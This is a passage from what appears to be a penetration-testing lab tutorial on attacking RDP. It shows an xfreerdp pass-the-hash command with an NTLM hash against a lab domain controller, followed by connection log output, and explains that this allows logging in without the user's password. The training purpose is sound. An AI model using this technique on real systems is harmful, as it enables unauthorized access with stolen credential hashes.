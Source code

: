 Once the registry key is added, we can use `xfreerdp` with the option `/pth` to gain RDP access:

Attacking RDP

```shell-session
frank-106@htb[/htb]# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9

[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state            
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr                                   
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd                                  
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr                                 
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized                               
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state        
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - CN = dc-01.superstore.xyz                                                     
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - VERSION ={                                                              
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMajorVersion: 6                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductMinorVersion: 1                                           
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        ProductBuild: 7601                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        Reserved: 0x000000                                               
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -        NTLMRevisionCurrent: 0x0F                                        
[09:24:11:567] [1668:1669] [INFO][com.winpr.sspi.NTLM] - negotiateFlags "0xE2898235"

<SNIP>

```

If it works, we'll now be logged in via RDP as the target user without knowing their cleartext password.
